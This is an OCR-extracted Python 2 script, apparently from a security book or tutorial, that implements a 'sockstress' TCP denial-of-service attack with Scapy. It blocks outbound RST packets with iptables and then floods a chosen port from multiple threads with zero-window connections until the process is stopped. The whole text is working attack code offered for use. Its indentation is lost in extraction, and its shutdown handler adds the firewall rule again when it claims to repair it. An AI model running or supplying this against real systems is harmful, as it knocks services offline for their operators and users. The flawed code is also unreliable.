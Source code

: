 ```
        #!/usr/bin/python

        from scapy.all import *
        from time import sleep
        import thread
        import logging
        import os
        import signal
        import sys
        logging.getLogger("scapy.runtime").setLevel(logging.ERROR)

        if len(sys.argv) != 4:
        print "Usage - ./sock_stress.py [Target-IP]
         [Port Number] [Threads]"
        print "Example - ./sock_stress.py 10.0.0.5 21 20"
        print "Example will perform a 20x multi-threaded
         sock-stress DoS attack "
        print "against the FTP (port 21) service on 10.0.0.5"
        print "n***NOTE***"

        print "Make sure you target a port that responds
         when a connection is made"
        sys.exit()

        target = str(sys.argv[1])
        dstport = int(sys.argv[2])
        threads = int(sys.argv[3])

        ## This is where the magic happens
        def sockstress(target,dstport):
        while 0 == 0:
        try:
        x = random.randint(0,65535)
        response = sr1(IP(dst=target)
        /TCP(sport=x,dport=dstport,flags='S'),timeout=1,verbose=0)             send(IP(dst=target)
        /TCP(dport=dstport,sport=x,window=0,flags='A',
        ack=(response[TCP].seq + 1))/'x00x00',verbose=0)
        except:
        pass

        ## Graceful shutdown allows IP Table Repair
        def graceful_shutdown(signal, frame):
        print 'nYou pressed Ctrl+C!'
        print 'Fixing IP Tables'
        os.system('iptables -A OUTPUT -p tcp --tcp-flags RST RST -d '
         + target + ' -j DROP')
        sys.exit()

        ## Creates IPTables Rule to Prevent Outbound RST Packet
         to Allow Scapy TCP Connections
        os.system('iptables -A OUTPUT -p tcp --tcp-flags RST RST -d '
         + target + ' -j DROP')
        signal.signal(signal.SIGINT, graceful_shutdown)

        ## Spin up multiple threads to launch the attack
        print "nThe onslaught has begun...use Ctrl+C to
         stop the attack"
        for x in range(0,threads):
        thread.start_new_thread(sockstress, (target,dstport))

        ## Make it go FOREVER (...or at least until Ctrl+C)
        while 0 == 0:
        sleep(1)
```